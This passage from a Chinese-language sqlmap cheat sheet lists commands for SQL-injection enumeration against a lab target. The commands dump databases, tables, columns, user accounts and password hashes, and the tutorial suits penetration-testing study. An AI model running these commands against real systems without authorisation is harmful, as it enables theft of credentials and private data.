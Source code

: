 例如：sqlmap -u "存在注入的URL" --technique -u -v3 --batch --privileges

**15、sqlmap列举数据库名**
--dbs 列举数据库名称

**16、sqlmap枚举数据库表**
--tables 枚举表名 --> 制定具体数据库 -D 数据库名

--exclude-sysdbs

例如：(1)sqlmap -u "存在注入的URL" -D 数据库名 --tables

(2)sqlmap -u "存在注入的URL" --tables --exclude-sysdbs

**17、sqlmap枚举数据表列**
--columns -D 指定数据库 -T 指定数据表 -C 指定具体字段

例如：sqlmap -u "存在注入的URL地址" -D 数据库名 -T 用户名 --columns

**18、sqlmap枚举数据值**
--dump

例如：sqlmap -u "存在注入的URL地址" -D 数据库名 -T 表名 -C “username，password" --dump

**19、sqlmap枚举schema信息**
定义：用户可以使用此开关--schema检索DBMS模式。模式列表将所有的数据库、表和列，以及它们各自的类型。与--exclude-sysdb结合使用时，只会检索和显示包含非系统数据库的模式的一部分

例如：sqlmap -u "存在注入的URL地址" --schema--batch --exclude-sysdbs

**20、sqlmap检索数据表的数量**
如果用户只想知道表中的条目数，则可以使用此开关。

--count

### 常用参数

```
sqlmap -r http.txt  #http.txt是我们抓取的http的请求包
sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测
sqlmap -u "http://www.xx.com/username/admin*"       #如果我们已经知道admin这里是注入点的话，可以在其后面加个*来让sqlmap对其注入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   #探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users      #查看数据库的所有用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords  #查看数据库用户名的密码
有时候使用 --passwords 不能获取到密码，则可以试下
-D mysql -T user -C host,user,password --dump  当MySQL< 5.7时
-D mysql -T user -C host,user,authentication_string --dump  当MySQL>= 5.7时
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --dbs        #爆出所有的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --tables     #爆出所有的数据表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --columns    #爆出数据库中所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --current-db #查看当前的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  #爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据

```